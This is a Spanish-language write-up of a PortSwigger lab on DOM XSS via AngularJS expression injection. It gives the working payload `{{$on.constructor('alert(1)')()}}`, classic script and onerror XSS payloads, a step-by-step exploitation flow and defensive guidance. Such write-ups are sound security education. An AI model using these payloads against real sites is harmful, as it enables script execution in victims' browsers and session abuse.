

# Lab 44 - DOM XSS en una expresión AngularJS con `< >` y comillas dobles codificados en HTML

**Laboratorio de PortSwigger Web Security Academy:** DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded  
**URL del lab:** `https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression`  
**Categoría:** Cross-site scripting, DOM-based XSS, AngularJS expression injection  
**Objetivo:** ejecutar `alert(1)` mediante una expresión AngularJS.

---

## 1. Descripción del laboratorio

El laboratorio dice lo siguiente:

> Este laboratorio contiene una vulnerabilidad de cross-site scripting basado en DOM en una expresión de AngularJS dentro de la funcionalidad de búsqueda. AngularJS analiza el contenido de los nodos HTML que contienen el atributo `ng-app`. Cuando se añade una directiva al HTML, es posible ejecutar expresiones JavaScript dentro de dobles llaves: `{{ ... }}`. Esta técnica es útil cuando los signos `< >` están codificados y no puedes inyectar etiquetas HTML directamente. Para resolver el laboratorio, debes realizar un ataque de XSS que ejecute una expresión AngularJS e invoque la función `alert`.

La idea principal es esta:

```text
No puedo inyectar HTML normal con <script> o .
Pero la página usa AngularJS.
AngularJS interpreta {{ ... }} como expresión.
Si mi input queda dentro de una zona Angular, puedo ejecutar código sin crear etiquetas HTML.
```

Este lab es importante porque rompe una idea muy común y peligrosa:

```text
“Si codifico < y >, ya no hay XSS.”
```

Eso no siempre es cierto. Codificar `<` y `>` puede impedir que el navegador cree etiquetas HTML nuevas, pero no impide que un framework JavaScript interprete texto como una expresión ejecutable. En este caso, el problema no está en crear una etiqueta `<script>`, sino en que AngularJS evalúa expresiones dentro de `{{ ... }}`.

---

## 2. Capturas usadas en este writeup

Las imágenes están dentro de la carpeta `images/` incluida en este ZIP.

| Imagen | Archivo | Qué muestra |
|---|---|---|
| Imagen 1 | `images/imagen_01_pagina_inicial.png` | Página inicial del laboratorio, con el buscador vulnerable. |
| Imagen 2 | `images/imagen_02_alert_payload.png` | Popup de `alert(1)` ejecutado. |
| Imagen 3 | `images/imagen_03_laboratorio_resuelto.png` | Laboratorio marcado como resuelto. |


---

## 3. Qué tipo de XSS es este

Este laboratorio es un **DOM XSS**.

Eso significa que la vulnerabilidad ocurre en el navegador, no necesariamente porque el servidor construya directamente una respuesta HTML peligrosa con una etiqueta maliciosa.

En un DOM XSS normalmente tenemos tres piezas:

```text
SOURCE  ->  lugar de donde sale el dato controlado por el usuario
SINK    ->  lugar peligroso donde acaba ese dato
DOM     ->  el navegador procesa y ejecuta el resultado
```

En este lab, la funcionalidad vulnerable es la búsqueda del blog. Tú introduces algo en el buscador, el valor aparece reflejado dentro de la página, y como la página está bajo AngularJS, Angular procesa ese contenido.

La diferencia con labs anteriores es que aquí no necesitas que tu input acabe en `innerHTML`, `document.write`, `href="javascript:..."`, ni dentro de un evento tipo `onclick`. Aquí el punto peligroso es que el contenido cae dentro de una zona Angular y Angular lo evalúa como expresión.

---

## 4. Qué es AngularJS

AngularJS es un framework/librería JavaScript antiguo, pero muy usado durante años, que permite construir páginas dinámicas. AngularJS lee el HTML, busca directivas especiales y procesa expresiones.

Una directiva es un atributo especial que Angular entiende. Por ejemplo:

```html
<body ng-app>
    ...
</body>
```

`ng-app` le dice a AngularJS:

```text
A partir de aquí, procesa esta parte del documento como una aplicación Angular.
```

Si `ng-app` está en el `<body>`, AngularJS procesa todo lo que está dentro del body. No hace falta que `ng-app` esté justo al lado del input vulnerable. Basta con que el contenido vulnerable esté dentro de un elemento padre que tiene `ng-app`.

Ejemplo simple:

```html
<body ng-app>
    <h1>{{ 1 + 1 }}</h1>
</body>
```

AngularJS no mostrará literalmente `{{ 1 + 1 }}`. Lo evaluará y mostrará:

```text
2
```

Esto es muy cómodo para desarrollar interfaces, pero peligroso si metes entrada de usuario dentro de una zona procesada por Angular.

---

## 5. Qué son las expresiones AngularJS `{{ ... }}`

En AngularJS, las dobles llaves indican interpolación:

```html
{{ expresión }}
```

AngularJS toma lo que hay dentro y lo evalúa como una expresión.

Ejemplos:

```html
{{ 7 * 7 }}
```

Resultado:

```text
49
```

Otro ejemplo:

```html
{{ 'hola'.toUpperCase() }}
```

Resultado:

```text
HOLA
```

La parte crítica para seguridad es esta:

```text
Lo que va dentro de {{ ... }} no es tratado como texto normal.
AngularJS intenta evaluarlo.
```

Por eso, si un usuario controla texto que acaba dentro de una zona Angular, puede intentar meter:

```text
{{ payload }}
```

Y AngularJS puede ejecutarlo.

---

## 6. Por qué este lab funciona aunque `< >` y `"` estén codificados

El lab indica que los signos `< >` y las comillas dobles `"` están codificados en HTML.

Eso significa que si intentas algo como:

```html
<script>alert(1)</script>
```

la aplicación probablemente lo transformará en algo parecido a:

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```

Y el navegador lo mostrará como texto, no como una etiqueta real.

Lo mismo con una imagen típica:

```html

```

Si `<` y `>` están codificados, el navegador no crea un `` real.

Pero aquí no necesitamos `<script>`, ``, ni ninguna etiqueta. AngularJS interpreta expresiones con llaves:

```text
{{ ... }}
```

Las llaves `{` y `}` no son signos de apertura/cierre de etiqueta HTML. Por eso el filtro que solo se centra en `< >` y `"` no bloquea el ataque.

La defensa que sirve para HTML no necesariamente sirve para AngularJS. Ese es el punto del laboratorio.

---

## 7. Qué significa `ng-app` en este laboratorio

Al inspeccionar el DOM después de buscar una cadena normal como `pepe1`, se observa algo muy importante:

```html
<body ng-app="" class="ng-scope">
```

Ese atributo confirma que AngularJS está activo.

Además, el resultado de la búsqueda aparece dentro del body:

```html
<section class="blog-header">
    <h1>0 search results for 'pepe1'</h1>
    <hr>
</section>
```

Por tanto, el input `pepe1` está dentro de una zona AngularJS.

La relación es:

```text
<body ng-app>
    ...
    <h1>0 search results for 'INPUT_USUARIO'</h1>
    ...
</body>
```

Como el `<h1>` está dentro del `<body ng-app>`, AngularJS procesa también el contenido del `<h1>`.

Esto es clave:

```text
No necesito ver ng-app justo en el <h1>.
Si ng-app está en un padre, Angular procesa los hijos.
```

---

## 8. Primera prueba: buscar una cadena normal

Entramos en el laboratorio. La página inicial se ve como un blog con un buscador.


Introducimos una cadena normal:

```text
pepe1
```

La página muestra algo parecido a:

```text
0 search results for 'pepe1'
```

Al inspeccionar el DOM, vemos que el valor aparece en un `<h1>` dentro del documento:

```html
<section class="blog-header">
    <h1>0 search results for 'pepe1'</h1>
    <hr>
</section>
```

Y, más arriba, el body está marcado como aplicación AngularJS:

```html
<body ng-app="" class="ng-scope">
```

Conclusión de esta primera prueba:

```text
El input del usuario se refleja en la página.
La página está dentro de AngularJS.
Por tanto, tiene sentido probar una expresión AngularJS.
```

---

## 9. Segunda prueba: comprobar si AngularJS evalúa expresiones

Antes de lanzar un payload malicioso, conviene probar algo inocuo:

```text
{{7*7}}
```

Si AngularJS está evaluando expresiones, la salida no será literalmente `{{7*7}}`, sino:

```text
49
```

Y eso es exactamente lo que ocurre:

```html
<section class="blog-header">
    <h1 class="ng-binding">0 search results for '49'</h1>
    <hr>
</section>
```

Aquí aparecen dos pistas importantes:

1. El resultado es `49`, no `{{7*7}}`.
2. Angular añade la clase `ng-binding`, que indica que ha hecho binding/interpolación.

Esto confirma el vector:

```text
El buscador no solo refleja texto.
El texto reflejado se evalúa como expresión AngularJS.
```

En este punto ya sabemos que no necesitamos inyectar HTML. Podemos ejecutar algo a través de AngularJS.

---

## 10. Payload final

El payload utilizado para resolver el laboratorio es:

```text
{{$on.constructor('alert(1)')()}}
```

Al introducirlo en el buscador, AngularJS evalúa lo que hay dentro de `{{ ... }}`.

La expresión real que Angular evalúa es:

```javascript
$on.constructor('alert(1)')()
```

Resultado:



Y el laboratorio queda resuelto:


---

## 11. Desglose completo del payload

Payload completo:

```text
{{$on.constructor('alert(1)')()}}
```

Lo dividimos en partes:

```text
{{                                  }}
    $on . constructor ( 'alert(1)' ) ()
```

### 11.1. `{{ ... }}`

Esto le dice a AngularJS:

```text
Evalúa esta expresión.
```

Angular no lo trata como texto normal. Lo interpreta como una expresión AngularJS.

### 11.2. `$on`

`$on` es una función disponible en el contexto de AngularJS. No nos importa aquí su uso legítimo. Lo que importa es que es una función.

En JavaScript, las funciones son objetos. Y todos los objetos función tienen una propiedad `constructor`.

### 11.3. `$on.constructor`

En JavaScript:

```javascript
(function(){}).constructor
```

devuelve:

```javascript
Function
```

Es decir, si tienes una función cualquiera, puedes acceder al constructor global de funciones.

Por tanto:

```javascript
$on.constructor
```

es equivalente conceptualmente a:

```javascript
Function
```

### 11.4. `$on.constructor('alert(1)')`

Esto equivale a:

```javascript
Function('alert(1)')
```

`Function(...)` crea una función nueva dinámicamente a partir de un string.

Por ejemplo:

```javascript
Function('alert(1)')
```

crea algo equivalente a:

```javascript
function anonymous() {
    alert(1)
}
```

Importante: en este punto la función se ha creado, pero todavía no se ha ejecutado.

### 11.5. El último `()`

El último par de paréntesis ejecuta la función recién creada:

```javascript
Function('alert(1)')()
```

Esto significa:

```text
Crea una función que contiene alert(1) y ejecútala inmediatamente.
```

Por tanto:

```javascript
$on.constructor('alert(1)')()
```

termina ejecutando:

```javascript
alert(1)
```

---

## 12. Equivalencia mental del payload

El payload:

```text
{{$on.constructor('alert(1)')()}}
```

se puede entender así:

```javascript
$on.constructor('alert(1)')()
```

que equivale a:

```javascript
Function('alert(1)')()
```

que equivale a:

```javascript
(function anonymous() {
    alert(1)
})()
```

que ejecuta:

```javascript
alert(1)
```

Resumen:

```text
$on                    -> una función de AngularJS
.constructor           -> accede al constructor Function
('alert(1)')           -> crea una función con ese código
()                     -> ejecuta esa función
```

---

## 13. Por qué se usa `$on` y no directamente `alert(1)`

En algunos contextos AngularJS intenta limitar lo que puedes ejecutar dentro de expresiones. Dependiendo de la versión, existen mecanismos de sandbox o restricciones para impedir acceso directo a ciertos objetos globales.

Por eso muchos payloads de AngularJS usan formas indirectas de llegar a `Function`, como:

```javascript
$on.constructor(...)
```

La idea es:

```text
Si puedo acceder a una función cualquiera, puedo llegar a Function mediante .constructor.
Si puedo llegar a Function, puedo construir código dinámico.
Si puedo construir código dinámico, puedo ejecutar alert(1).
```

No es que `$on` sea peligroso por sí mismo en su uso normal. Lo peligroso es que está disponible dentro de una expresión AngularJS controlada por el atacante, y al ser función permite llegar a `Function`.

---

## 14. Por qué esto es XSS aunque no haya `<script>`

Mucha gente asocia XSS con esto:

```html
<script>alert(1)</script>
```

Pero XSS significa ejecución de JavaScript controlado por el atacante en el contexto de la aplicación vulnerable.

Puede ocurrir mediante:

- `<script>`
- ``
- `href="javascript:..."`
- eventos como `onclick`
- `innerHTML`
- `document.write`
- template literals
- AngularJS expressions
- otros sinks del DOM

En este lab no hay etiqueta `<script>` inyectada. La ejecución se produce porque AngularJS evalúa una expresión controlada por el usuario.

Por eso la vulnerabilidad sigue siendo XSS:

```text
El atacante controla una expresión.
AngularJS la evalúa.
El navegador ejecuta JavaScript en el origen vulnerable.
```

---

## 15. Diferencia con un XSS HTML clásico

En un XSS HTML clásico, el atacante suele intentar crear una nueva etiqueta:

```html

```

Para eso necesita que `<` y `>` no estén correctamente escapados.

En este laboratorio, eso está bloqueado. Si intentas inyectar una etiqueta, los signos `<` y `>` se codifican.

Pero AngularJS no necesita que crees una etiqueta. Solo necesita que aparezca una expresión:

```text
{{ ... }}
```

Diferencia:

| Técnica | Necesita `< >` | Depende de crear HTML | Depende de AngularJS |
|---|---:|---:|---:|
| `<script>alert(1)</script>` | Sí | Sí | No |
| `` | Sí | Sí | No |
| `{{7*7}}` | No | No | Sí |
| `{{$on.constructor('alert(1)')()}}` | No | No | Sí |

La lección es clara:

```text
Codificar HTML no siempre basta si el texto acaba dentro de un motor de plantillas o framework que evalúa expresiones.
```

---

## 16. DOM real observado en el laboratorio

Tras buscar `pepe1`, se observa que la página contiene AngularJS:

```html
<body ng-app="" class="ng-scope">
```

Y que el input queda reflejado en el resultado de búsqueda:

```html
<section class="blog-header">
    <h1>0 search results for 'pepe1'</h1>
    <hr>
</section>
```

Tras buscar:

```text
{{7*7}}
```

Angular lo evalúa y el DOM queda así:

```html
<section class="blog-header">
    <h1 class="ng-binding">0 search results for '49'</h1>
    <hr>
</section>
```

Eso confirma que Angular procesa la expresión.

Finalmente, al buscar:

```text
{{$on.constructor('alert(1)')()}}
```

se ejecuta `alert(1)`.

---

## 17. Flujo completo del ataque

El flujo completo es:

```text
1. El usuario introduce un payload en el buscador.
2. La aplicación refleja el valor en la página de resultados.
3. El valor queda dentro del <body ng-app>.
4. AngularJS escanea el DOM.
5. AngularJS encuentra {{ ... }}.
6. AngularJS evalúa la expresión.
7. La expresión usa $on.constructor para llegar a Function.
8. Function('alert(1)') crea una función dinámica.
9. El último () ejecuta esa función.
10. Se lanza alert(1).
11. El laboratorio queda resuelto.
```

Visualmente:

```text
Buscador
   ↓
Parámetro search
   ↓
HTML reflejado en <h1>
   ↓
<body ng-app>
   ↓
AngularJS procesa {{ ... }}
   ↓
$on.constructor('alert(1)')()
   ↓
alert(1)
```

---

## 18. Por qué `{{7*7}}` es una prueba tan buena

Antes de lanzar un payload ofensivo, conviene confirmar la hipótesis con una prueba inocua.

`{{7*7}}` es ideal porque:

- no ejecuta código peligroso;
- no depende de alert;
- demuestra si Angular está interpretando expresiones;
- si aparece `49`, sabes que hay evaluación;
- si aparece literalmente `{{7*7}}`, probablemente Angular no está procesando ese punto.

Resultado esperado vulnerable:

```text
0 search results for '49'
```

Resultado no vulnerable:

```text
0 search results for '{{7*7}}'
```

En este lab aparece `49`, así que el vector está confirmado.

---

## 19. Qué papel juega `ng-binding`

Cuando AngularJS procesa una interpolación, puede añadir clases como:

```html
class="ng-binding"
```

En el DOM aparece:

```html
<h1 class="ng-binding">0 search results for '49'</h1>
```

Esto es una pista de que Angular ha tomado ese nodo y ha hecho binding. No es necesario para explotar, pero confirma visualmente que Angular está interviniendo.

---

## 20. Por qué no hace falta URL encoding manual desde el buscador

Al introducir el payload en el buscador, el navegador/formulario se encarga de enviar el valor como parámetro de búsqueda. Si se introduce directamente en la URL, habría que tener cuidado con caracteres especiales.

Payload en texto:

```text
{{$on.constructor('alert(1)')()}}
```

En una URL, ciertos caracteres pueden codificarse. Por ejemplo, `{` y `}` pueden aparecer codificados como `%7B` y `%7D` dependiendo del navegador.

Pero la idea es la misma: al final, cuando la aplicación refleja el valor y Angular lo procesa, Angular ve:

```text
{{$on.constructor('alert(1)')()}}
```

---

## 21. Diferencia entre HTML encoding y Angular expression injection

HTML encoding sirve para evitar que caracteres como `<`, `>`, `"`, `'` cambien la estructura HTML.

Ejemplo:

```text
<  ->  &lt;
>  ->  &gt;
"  ->  &quot;
```

Esto protege contra crear etiquetas o cerrar atributos.

Pero Angular expression injection es otro contexto. Aquí el peligro no está en crear HTML, sino en que el contenido textual sea interpretado por AngularJS.

Contexto HTML:

```html
<h1>0 search results for '&lt;img src=x onerror=alert(1)&gt;'</h1>
```

Esto es seguro contra HTML injection.

Contexto Angular:

```html
<h1>0 search results for '{{$on.constructor('alert(1)')()}}'</h1>
```

Esto puede ser peligroso porque Angular lo evalúa.

Regla importante:

```text
Escapar para HTML no significa escapar para AngularJS.
```

---

## 22. Por qué el servidor no “ejecuta” el payload

Este ataque ocurre en el navegador.

El servidor simplemente devuelve HTML. La ejecución ocurre cuando:

1. el navegador recibe la página;
2. AngularJS se carga;
3. AngularJS procesa el DOM;
4. AngularJS evalúa la expresión.

El servidor no ejecuta `alert(1)`. El servidor no evalúa `$on.constructor(...)`. Todo eso pasa en el cliente.

Por eso es DOM XSS.

---

## 23. Qué habría pasado si AngularJS no estuviera activo

Si la página no tuviera `ng-app` o AngularJS no procesara esa zona, el payload:

```text
{{$on.constructor('alert(1)')()}}
```

se mostraría como texto literal.

Verías algo como:

```text
0 search results for '{{$on.constructor('alert(1)')()}}'
```

No habría ejecución.

Por eso el primer paso es confirmar Angular con `ng-app` y probar `{{7*7}}`.

---

## 24. Qué habría pasado con `<script>alert(1)</script>`

El lab está diseñado para que `< >` estén codificados. Por tanto, un payload clásico como:

```html
<script>alert(1)</script>
```

no debería funcionar, porque el navegador no lo interpreta como etiqueta.

Probablemente se reflejaría como texto codificado.

Este lab te obliga a cambiar de mentalidad:

```text
No busques crear una etiqueta.
Busca un lenguaje o framework que evalúe texto.
```

En este caso, ese lenguaje/framework es AngularJS.

---

## 25. Comparación con otros labs DOM XSS

### 25.1. DOM XSS con `innerHTML`

En `innerHTML`, el patrón peligroso es:

```javascript
element.innerHTML = userInput;
```

Payload típico:

```html

```

Necesitas que el HTML se convierta en nodos reales.

### 25.2. DOM XSS con `document.write`

En `document.write`, el patrón peligroso es:

```javascript
document.write(userInput);
```

A veces necesitas salir de un contexto, por ejemplo `</select>`.

### 25.3. DOM XSS con `href`

En `href`, el patrón peligroso es:

```javascript
link.href = userInput;
```

Payload típico:

```text
javascript:alert(1)
```

### 25.4. DOM XSS con AngularJS

Aquí el patrón peligroso es:

```html
<body ng-app>
    ... USER_INPUT ...
</body>
```

Payload típico:

```text
{{expresión}}
```

No necesitas crear HTML.

---

## 26. Error conceptual del desarrollador

El desarrollador probablemente pensó:

```text
Estoy codificando < > y comillas dobles.
No pueden meter <script>.
No pueden meter atributos HTML.
Estamos seguros.
```

Pero el error es que la página tiene AngularJS activo y el input se refleja dentro de su ámbito.

La pregunta correcta no es solo:

```text
¿El usuario puede crear HTML?
```

También hay que preguntar:

```text
¿Algún framework va a interpretar este texto como código o expresión?
```

Aquí la respuesta es sí.

---

## 27. Impacto real de este tipo de vulnerabilidad

En el lab solo se ejecuta:

```javascript
alert(1)
```

Pero en una aplicación real, si un atacante consigue ejecutar JavaScript en el origen vulnerable, podría intentar:

- leer información accesible en el DOM;
- realizar acciones como el usuario;
- hacer peticiones autenticadas;
- modificar formularios;
- robar tokens no protegidos;
- cambiar datos visibles;
- pivotar hacia otros endpoints internos del sitio;
- abusar de APIs disponibles en el navegador.

El impacto exacto depende de la aplicación, cookies, CSP, tokens, permisos y controles del navegador.

---

## 28. Cómo defenderse correctamente

### 28.1. No reflejar input de usuario dentro de zonas AngularJS

La defensa principal es no meter datos no confiables dentro de un área que AngularJS va a compilar/evaluar.

Malo:

```html
<body ng-app>
    <h1>Search results for '{{USER_INPUT}}'</h1>
</body>
```

Mejor: renderizar datos como texto seguro o fuera de un contexto compilado por Angular.

### 28.2. Usar `ng-non-bindable` cuando sea necesario

AngularJS tiene la directiva `ng-non-bindable`, que indica que Angular no debe procesar interpolaciones dentro de ese elemento.

Ejemplo:

```html
<h1 ng-non-bindable>0 search results for '{{USER_INPUT}}'</h1>
```

Con eso, Angular no evaluaría `{{...}}` dentro de ese bloque.

### 28.3. Escapar para el contexto correcto

No basta con HTML encoding genérico. Debes escapar según el contexto final:

- HTML text context;
- HTML attribute context;
- JavaScript string context;
- URL context;
- CSS context;
- framework/template context.

Este lab demuestra que el contexto final no es solo HTML, sino AngularJS expression processing.

### 28.4. Evitar AngularJS antiguo o configuraciones inseguras

AngularJS 1.x es antiguo y ha tenido muchas técnicas conocidas de sandbox escape dependiendo de la versión. En aplicaciones reales conviene evitar patrones heredados donde Angular compile HTML que contiene entrada de usuario.

### 28.5. Usar CSP como defensa adicional

Una Content Security Policy fuerte puede reducir impacto, pero no debe ser la única defensa. CSP puede dificultar ejecución inline o creación dinámica de funciones, pero si la app depende de patrones inseguros o usa AngularJS de forma peligrosa, no conviene confiar solo en CSP.

### 28.6. Separar datos de plantillas

Los datos del usuario deben tratarse como datos, no como plantilla. Si necesitas mostrar una búsqueda, la aplicación debe insertar el texto de forma segura, no dejar que el motor de plantillas lo interprete.

---

## 29. Versión segura conceptual

Si la aplicación quiere mostrar:

```text
0 search results for 'pepe1'
```

no debería permitir que `pepe1` sea compilado por Angular como expresión.

Una idea segura sería insertar el texto mediante APIs que no interpreten HTML ni expresiones:

```javascript
document.getElementById('searchMessage').textContent = userInput;
```

O, si se usa AngularJS, usar bindings que traten el valor como texto seguro y evitar compilar HTML arbitrario.

También se puede usar `ng-non-bindable` para secciones donde se muestra texto no confiable.

---

## 30. Procedimiento práctico resumido

1. Abrimos el laboratorio.
2. Vemos que es un blog con buscador.
3. Buscamos una cadena normal: `pepe1`.
4. Inspeccionamos el DOM.
5. Confirmamos que existe:

```html
<body ng-app="" class="ng-scope">
```

6. Confirmamos que el input se refleja dentro del body:

```html
<h1>0 search results for 'pepe1'</h1>
```

7. Probamos una expresión Angular inocua:

```text
{{7*7}}
```

8. Vemos que aparece:

```text
49
```

9. Confirmamos que Angular evalúa expresiones.
10. Introducimos el payload final:

```text
{{$on.constructor('alert(1)')()}}
```

11. Se ejecuta `alert(1)`.
12. El laboratorio queda resuelto.

---

## 31. Payload final

```text
{{$on.constructor('alert(1)')()}}
```

---

## 32. Explicación ultra corta del payload

```text
{{ ... }}         Angular evalúa la expresión.
$on              Es una función disponible en AngularJS.
.constructor     Accede a Function.
('alert(1)')     Crea una función con ese código.
()               Ejecuta la función.
```

Equivalencia:

```javascript
$on.constructor('alert(1)')()
```

es equivalente a:

```javascript
Function('alert(1)')()
```

---

## 33. Lecciones clave del laboratorio

1. XSS no siempre necesita etiquetas HTML.
2. Codificar `< >` no protege contra todos los contextos.
3. AngularJS puede evaluar expresiones dentro de `{{ ... }}`.
4. Si el input del usuario se refleja dentro de un `ng-app`, hay que analizar si Angular lo procesa.
5. `{{7*7}}` es una buena prueba para detectar evaluación Angular.
6. `$on.constructor(...)()` permite llegar a `Function` y ejecutar código.
7. La defensa correcta es evitar que input no confiable sea compilado por AngularJS.
8. Escapar HTML no equivale a escapar expresiones de frameworks.

---

## 34. Frase clave para recordar

```text
Este XSS no rompe HTML: rompe la frontera entre texto y expresión AngularJS.
```

Y la más importante:

```text
Escapar etiquetas no basta si un framework interpreta el texto como código.
```
